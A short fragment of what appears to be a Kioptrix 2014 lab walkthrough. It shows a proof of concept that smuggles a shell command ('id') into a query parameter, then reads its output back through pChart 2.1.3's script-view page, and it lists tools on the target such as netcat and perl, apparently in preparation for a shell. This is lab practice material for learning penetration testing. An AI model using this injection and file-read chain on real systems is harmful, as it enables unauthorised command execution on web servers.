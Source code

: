 ![image-20231117095255625](./KIOPTRIX%202014%20(5).assets/image-20231117095255625.png)

##### (1) 211665

- poc

```
After /index.php?pfilez=1040d1-pg2.tob;id>/tmp/qwe;&pdf=make
$ curl 'http://192.168.123.127/pChart2.1.3/examples/index.php?Action=View&Script=/tmp/qwe'
<code><span style="color: #000000">
uid=80(www)&nbsp;gid=80(www)&nbsp;groups=80(www)<br /></span>
</code>
```

- validate machine's env
  - python [x]
  - /bin/sh [y]
  - /usr/bin/nc [y]
  - perl [y]
